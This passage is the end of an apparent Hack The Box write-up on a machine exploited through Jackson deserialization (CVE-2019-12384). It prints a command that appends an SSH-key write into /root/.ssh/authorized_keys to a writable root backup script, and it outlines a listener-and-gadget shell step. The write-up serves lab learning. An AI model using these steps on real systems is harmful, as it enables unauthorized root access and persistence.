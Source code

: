 2. *Setup http server & netcat listener*
![](https://i.imgur.com/kYaG0vZ.png)


3. *Abuse the deserialization vulnerability & use the `DriverManagerConnectionSource` gadget*

4. *Enjoy your shell*
![](https://i.imgur.com/jh0fwLP.png)



## Privilige escalation

Once on the box, a simple enumeration reveals that we have write access to a backup script ran by root.
```bash
bash-5.0$ cat /usr/bin/timer_backup.sh
cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

So, we could just import our public SSH key and have root access.
```bash
echo "echo SSH_PUB_KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```


## Conclusion
I've seen that a lot of people said that this box is easy, which I can agree in the way that you can find the CVE quite easy and modify the POC payload to get the flags and move on, without diving more into it. However, I think that this is a great box for someone new and even for some more experienced people. I say this because if you really want to understand what's going on behind the scenes, which you should, you understand new concepts such as: *java deserialization, gadgets, how an actual CVE is found, etc*.

Honestly, I learned a lot by playing around with this box and afterall this is the goal of *HTB*. To learn new concepts that you can add to your skill-set which elevates your craft.

If you want to dig deeper into deserealization attacks within java libraries, I suggest you check the references down below. I found some really great articles/talks about this subject which I can't give enough credit.

## References
- [Understanding Java Deserialization](https://medium.com/@swapneildash/understanding-java-de-serialization-ee96054da15d)
- [Java deserealization lib to secure apps](https://github.com/ikkisoft/SerialKiller)
- [Understanding insecure implementation of Jackson deserialization](https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [SnakeYaml Deserilization exploited](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)
- [POC tool 4 generating payloads that exploit unsage Java object deserilization](https://github.com/frohoff/ysoserial)
- [Depickling, gadgets and chains: The class of exploit that unraveled Equifax](https://brandur.org/fragments/gadgets-and-chains)
- [POC Jackson deserilization on Spring web app](https://github.com/galimba/Jackson-deserialization-PoC)
- [Java deserilization cheat-sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json)
- [Jackson Library](https://github.com/FasterXML/jackson)
- [Marshalling Pickles - OWASP AppSec California 2015](https://www.youtube.com/watch?v=KSA7vUkXGSg)
- [CVE-2019-12384](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
